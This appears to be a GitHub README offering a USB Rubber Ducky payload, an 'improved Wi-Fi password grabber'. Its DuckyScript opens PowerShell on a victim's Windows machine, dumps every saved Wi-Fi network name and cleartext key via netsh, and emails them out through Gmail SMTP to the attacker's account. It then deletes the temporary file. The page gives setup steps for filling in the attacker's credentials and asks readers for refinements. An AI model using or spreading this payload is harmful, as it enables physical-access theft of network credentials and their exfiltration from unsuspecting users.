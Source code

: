 ## Slightly improved version of [WiFi password grabber](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---WiFi-password-grabber) by Siem

### Make sure to change "YOUREMAIL@gmail.com" with your G-Mail, and "YOURPASSWORD" with your password

### Code:
```
REM Title       : Improved Wi-Fi Password Grabber
REM Author      : Jacob Collins
REM Version     : 3
REM Description : An improved version of the "WiFi password grabber" by Siem. It is a bit faster, and shorter.
REM DISCLAIMER  : Make sure to replace all instances of "YOUREMAIL@gmail.com" (without quotes), with your actual e-mail (MUST BE G-MAIL!), and "YOURPASSWORD" (without quotes) with your password.
REM DISCLAIMER  : Make sure to enable "Allow less secure apps". Here is the link: https://myaccount.google.com/lesssecureapps
DELAY 1000
REM --------> Open the run dialog
GUI r
DELAY 500
REM --------> Open Powershell straight away, allows us to type the command out as its queueing. Close when Powershell exits.
STRING cmd /c powershell && exit
DELAY 500
Rem --------> Long-ass command. Gets the SSID and password off each saved WiFi network, formats a bit, sends it to YOUREMAIL@gmail.com, through the account of YOUREMAIL@gmail.com
STRING $a=0;ForEach($b in ((netsh wlan show profile|findstr "All User Profile") -match "All User Profile").split(":")){if($a -eq "1") {(netsh wlan show profile $b.substring(1) Key=clear|findstr /I "SSID Content"|findstr /V "SSIDs") -replace "[^`"]$","`r`n">>a;$a++}else{$a=1}};$c=New-Object Net.Mail.SmtpClient("smtp.gmail.com",587);$c.EnableSsl=$true;$c.Credentials=New-Object System.Net.NetworkCredential("YOUREMAIL@gmail.com","YOURPASSWORD");$d=New-Object System.Net.Mail.MailMessage;$d.From="YOUREMAIL@gmail.com";$d.To.Add("YOUREMAIL@gmail.com");$d.Subject=($env:UserName+"@"+$env:UserDomain);$d.Body=(Get-Content a|out-string);$c.Send($d);Remove-Item a;exit
```
### Suggestions
Please feel free to leave any suggestions, like code minimization, fixes etc.